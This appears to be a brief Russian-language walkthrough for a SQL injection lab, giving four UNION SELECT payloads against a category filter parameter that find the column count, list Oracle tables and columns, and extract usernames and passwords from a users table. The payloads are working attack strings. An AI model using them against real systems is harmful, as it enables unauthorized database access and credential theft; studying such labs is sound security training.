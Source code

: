1. Узнаем количество колонок

`/filter?category=' UNION SELECT NULL, NULL -- -`

2. Узнаем названия таблиц

`/filter?category=' UNION  SELECT table_name, null FROM all_tables -- -`

3. Узнаем название колонок

`/filter?category=' UNION  SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_TZDQKU'  -- -`

4. Получаем данные

`/filter?category=' UNION  SELECT PASSWORD_BOEIZX, USERNAME_VDKRLJ FROM USERS_TZDQKU  -- -`
